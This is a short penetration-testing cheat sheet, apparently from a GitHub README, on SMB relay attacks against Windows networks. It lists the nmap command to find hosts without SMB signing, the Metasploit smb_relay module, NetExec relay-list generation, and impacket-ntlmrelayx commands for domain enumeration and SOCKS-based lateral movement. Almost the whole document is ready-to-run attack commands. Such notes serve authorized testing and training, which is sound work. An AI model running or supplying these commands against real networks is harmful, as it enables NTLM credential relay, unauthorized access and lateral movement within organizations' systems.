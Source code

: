 # SMB Relay

### Works on unsigned SMB

## Tools: Metasploit , nmap , CrackMapExec/Netexec , impacket-ntlmrelayx

### Check for unsigned SMB first!

 - nmap -Pn -sS -T4 --open --script smb-security-mode -p 445 IP_ADDRESS/MASK

 - use exploit/windows/smb/smb_relay (Metaploit)

 - netexec smb 4hosts --gen-relay-list RELAY.TXT

### Find Users

 - impacket-ntlmrelayx -tf TARGETS.TXT -smb2support (-6) --enum-domain

### Lateral Movement (SOCKS)

 - impacket-ntlmrelayx -tf TARGETS.TXT -smb2support -socks (-6)
